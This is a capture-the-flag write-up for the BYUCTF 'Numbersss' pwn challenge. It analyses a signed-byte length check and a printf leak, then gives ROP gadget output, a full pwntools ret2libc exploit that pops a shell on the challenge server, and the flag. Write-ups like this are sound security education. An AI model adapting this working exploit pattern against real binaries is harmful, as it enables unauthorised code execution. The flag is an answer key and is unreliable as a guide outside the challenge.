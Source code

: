 https://ctftime.org/event/2252/

# Numbersss (Pwn)

Sometimes computer numbers can be so harddd

nc numbersss.chal.cyberjousting.com 1351

## Binary Analysis

`vuln` @ `0x004011b9`:
- Leaks the address of `printf`
- Uses `scanf` with `%hhd` to read a value into `length`
- Checks if the value is less than or equal to `0x10`
    - Done in such a way that negative values will be accepted
- Writes to the stack one byte at a time `length` times by reading from `stdin`

## Solution

We simply perform a ret2libc by supplying `128` as the `length`. This is simply the first value larger than 127 that will be accepted by the conditional check on `length`.

### Bypassing ASLR

First we need to know the version of `libc.so` that the remote is using. We'll use this to bypass ASLR, in combination with the earlier `printf` leak.

Copy the version of `libc.so` that the remote uses from the provided Dockerfile:
    - `$ docker cp id:/lib/x86_64-linux-gnu/libc.so.6 ./libc.so`
    - Which has the following SHA-2-256 hash:
        - `c3a14ee6eb14cdb81f6bbd0ab94ca138597db93d5c8e7bafb5609d2f94ee0068`

### Preparing Gadgets

We find the required gadgets using `ROPgadget` as follows:

```
$ ROPgadget --binary ./libc.so | grep ": pop rdi ; ret$"
0x00000000000240e5 : pop rdi ; ret
```

Note that the main image doesn't contain a `pop rdi` gadget so its easiest to grab it from `libc.so` now that we can bypass ASLR.

Don't forget to include an aligning `ret` gadget with such payloads. This helps keep the stack aligned so that instructions, used within libc, that expect the stack to be `16` byte aligned continue to function.

```
$ ROPgadget --binary ./numbersss | grep ": ret$"
0x0000000000401016 : ret
```

### Final Exploit

```
from pwn import *

elf = ELF("./numbersss", checksec=False)
libc = ELF("./libc.so", checksec=False)
context.binary = elf

p = remote("numbersss.chal.cyberjousting.com", 1351)

p.readuntil(b"Free junk: ")

leak = int(p.readline().decode(), 16)
libc.address = leak - libc.sym["printf"]

p.readline()

p.sendline(b"128")

POP_RDI = 0x240e5
RET = 0x401016

payload = b"A" * 0x18
payload += p64(libc.address + POP_RDI)
payload += p64(next(libc.search(b"/bin/sh\x00")))
payload += p64(RET)
payload += p64(libc.sym["system"])
payload = payload.ljust(128, b"B")

p.send(payload)

p.interactive()
```

## Flag
`byuctf{gotta_pay_attention_to_the_details!}`
